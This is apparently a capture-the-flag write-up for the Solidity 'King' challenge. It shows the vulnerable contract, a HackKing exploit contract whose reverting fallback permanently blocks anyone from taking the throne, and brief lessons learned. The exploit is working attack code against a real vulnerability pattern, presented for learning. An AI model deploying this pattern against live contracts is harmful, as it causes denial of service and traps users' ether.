 # King Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
# Solution
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract HackKing {
    constructor(address payable _king) payable {
        (bool result, ) = _king.call{value: msg.value}("");
        require(result, "Failed to send value.");
    }

    fallback() external payable {
        revert();
    }
}
```

# What I learned
1. Some type of fallback should be used if contract uses a function to send money to an address in case that address is a contract instead of a wallet.
2. Setting fallback() from attacking contract is smart so eth can't be sent back.
3. You can use a fallback with simply 'revert()' and solidity is okay with that.
